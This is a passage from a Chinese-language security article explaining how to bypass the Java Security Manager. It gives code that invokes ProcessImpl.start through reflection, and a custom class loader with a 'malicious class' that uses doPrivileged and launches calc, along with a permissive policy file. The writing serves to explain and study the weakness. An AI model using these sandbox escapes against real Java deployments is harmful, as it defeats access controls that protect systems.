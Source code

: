 ```
        `}`
        //最后调用ProcessImpl.start实现这个功能。
        //省略部分代码
    `}`
```

从代码中我们看到，正如前面所说，完成功能的是ProcessImpl.start方法，而在这个方法调用之前，security manager就已经完成了检测，于是，反射这个方法，调用它，就可以绕过检测。代码如下

```
public static void executeCommandWithReflection(String command)`{`
        try `{`
            Class clz = Class.forName("java.lang.ProcessImpl");
            Method method = clz.getDeclaredMethod("start", String[].class, Map.class, String.class, ProcessBuilder.Redirect[].class, boolean.class);
            method.setAccessible(true);
            method.invoke(clz,new String[]`{`command`}`,null,null,null,false);
        `}`catch (Exception e)`{`
            e.printStackTrace();
        `}`
    `}`
```

### <a class="reference-link" name="%E5%88%9B%E5%BB%BA%E7%B1%BB%E5%8A%A0%E8%BD%BD%E5%99%A8%E7%BB%95%E8%BF%87java%20security%20manager"></a>创建类加载器绕过java security manager

如前面所说，一个类的ProtectionDomain在这个类被类加载器加载时初始化，如果我们能自定义一个类加载器，加载一个恶意类，并且把它的ProtectionDomain里面的权限初始化成所有权限，这个恶意类不就可以有所有权限了吗？即便如此，这个恶意类被调用时，它仅仅是栈中的一个栈帧，在它下面的栈帧对应的权限仍是policy文件指定的权限。

这个时候就是doPrivileged发挥作用的时候了，如上面所说，AccessController会自顶向下遍历栈帧，如果遍历到doPrivileged，它会检查到调用doPrivileged方法的栈帧为止。只要我们在恶意类中调用doPrivileged方法，AccessController只会向下遍历检查到恶意类所在的栈帧，而恶意类对应的权限是所有权限，这样就可以绕过Java Security Manager。

java.policy如下，这里需要读class文件，所以需要读文件权限

```
grant`{`
    permission java.lang.RuntimePermission "createClassLoader";
    permission java.io.FilePermission "&lt;&lt;ALL FILES&gt;&gt;", "read";
`}`;
```

恶意类：com.evil.EvilClass

```
public class EvilClass `{`
    static`{`
        //在doPrivileged中执行恶意操作
        AccessController.doPrivileged(new  PrivilegedAction()  `{`
            @Override
            public  Object run() `{`
                try `{`
                    Process process = Runtime.getRuntime().exec("calc");

                    return null;
                `}`catch (Exception e)`{`
                    e.printStackTrace();
                    return null;
                `}`
            `}`
        `}`);

    `}`
`}`
```
